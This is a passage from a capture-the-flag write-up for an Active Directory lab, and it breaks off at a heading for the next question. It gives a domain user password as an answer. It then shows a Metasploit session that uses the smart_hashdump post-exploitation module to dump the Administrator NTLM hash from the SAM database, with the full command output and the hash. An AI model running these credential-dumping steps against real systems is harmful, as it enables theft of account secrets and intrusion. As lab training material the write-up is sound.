 The password for domain user is stated there.

#### Answer: P@ssw0rd123! 

### Q4 - NTLM hash result for user Administrator

![](/images/ctf-round-3-active-directory/8.png)

For this question, I use `post/windows/gather/smart_hashdump` to dump local accounts from the SAM Database.

```
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/local/ms16_075_reflection_juicy) > use post/windows/gather/smart_hashdump
msf6 post(windows/gather/smart_hashdump) > set SESSION 2
SESSION => 2
msf6 post(windows/gather/smart_hashdump) > run

[*] Running module against PROD-WEBSRV7765
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/ahmad/.msf4/loot/20201122030536_default_192.168.240.80_windows.hashes_705427.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*] 	Obtaining the boot key...
[*] 	Calculating the hboot key using SYSKEY 14a513800f23074d06b371d5b4bfdb86...
[*] 	Obtaining the user list and keys...
[*] 	Decrypting user keys...
[*] 	Dumping password hints...
[*] 	No users with password hints on this system
[*] 	Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
[*] Post module execution completed
```

Now I have the full NTLM hash for Administrator.

#### Answer: Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::

### Q5 - Plain text password for user Administrator
